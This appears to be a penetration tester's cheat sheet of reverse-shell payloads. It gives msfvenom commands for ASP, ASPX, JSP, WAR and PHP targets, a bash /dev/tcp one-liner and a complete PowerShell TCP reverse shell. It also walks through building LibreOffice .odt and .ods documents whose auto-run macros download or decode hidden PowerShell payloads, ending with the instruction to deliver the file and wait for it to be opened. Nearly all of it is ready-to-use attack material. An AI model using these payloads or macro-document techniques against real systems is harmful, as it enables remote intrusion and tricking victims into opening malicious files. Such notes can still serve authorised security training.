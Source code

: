 ```yaml
---
category: Uncategorized
tags: []
---
```

#### asp
Is it IIS 5.1?

5.1
```bash - kali
cp /usr/share/webshells/asp/cmd-asp-5.1.asp .
```

![[Pasted image 20220614101904.png]]

OR

```bash - kali
cp /usr/share/webshells/asp/cmdasp.asp .
```

32 bit Stageless:
```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse86.asp
```

32 bit Staged:
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse86.asp
```

64 bit Stageless:
```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse64.asp
```

64 bit Staged:
```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse64.asp
```

#### aspx
```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

32 bit Stageless:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse86.aspx
```

32 bit Staged:
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse86.aspx
```

64 bit Stageless:
```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse64.aspx
```

64 bit Staged:
```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse64.aspx
```

#### jsp	
```bash - kali
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f raw > reverse.jsp
```

#### jar / war
```bash - kali
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f war > reverse.war
```

Sometimes the jar itself will not work, we need to extract and upload one of its files:

```bash - kali
jar -xvf reverse.war
```

Now find and upload the .jsp file

#### NodeJS
```
echo "require('child_process').exec('bash -c \\'bash -i >& /dev/tcp/$KALI/443 0>&1\\''" > /var/www/node/package.js
```

#### php
```bash - kali
msfvenom -p php/reverse_php LHOST=$KALI LPORT=443 -f raw > reverse.php
```


#### .odt LibreOffice

save the following as Shelly.ps1
```
$client = New-Object System.Net.Sockets.TCPClient('$KALI',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```bash - kali
sudo apt install libreoffice-writer
```

Open LibreOffice Writer application.  start a new file, go to Tools > Macros > Organize Macros > basic.

select "FILE NAME" > New.  Name the Module.

```
REM  *****  BASIC  *****

Sub Main
	Shell("cmd /c powershell iwr http://$KALI/Shelly.ps1 -o %TEMP%/Shelly.ps1")
	Shell("cmd /c powershell -c %TEMP%/Shelly.ps1")
End Sub

```

**Save the document** as odt format.

We then need to make this macro run automatically when the document is opened.

Get out of the macro screen, back to the original file window.
go to Tools > customize > Events > Open Document > Macro >  double click "filename" > double click Standard > Select "macro name" > click OK > click OK

**Save file**

```bash - kali
chmod 755 Shelly.ps1
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[rlwrap]]

upload odt file.

#### .hta - .ods LibreOffice

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o evil.hta
```

Open the hta file, copy the "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"

```bash - kali
mousepad transform.py
```

Paste in place for the s variable.
```python
s = "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"

n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')
```

```bash - kali
sudo apt install libreoffice-calc
```

start a new LibreOffice Calc file, go to Tools > Macros > Organize Macros > basic.

select "FILE NAME" > New.  Name the Module.  Paste in your generated to look like this:

==NOTICE HOW THIS STARTS WITH "cmd.exe /C ......."==

Make sure your Dim and Str's line up!

---

Sub Exploit

   Dim Str As String

   Str = Str + "cmd.exe /C powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
   Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
   Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
   Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
   Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
   ...
   Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
   Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
   Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
   Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
   Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
   Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
   Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
   Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
   Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
   Str = Str + "AdABhAHIAdAAoACQAcwApADsA"

   Shell(Str)

End Sub

---

**Save the document**

We then need to make this macro run automatically when the document is opened.

Get out of the macro screen, back to the original file window.
go to Tools > customize > Events > Open Document > Macro >  double click "filename" > double click Standard > Select "macro name" > click OK > click OK

Now just deliver the file and wait for it to be opened.
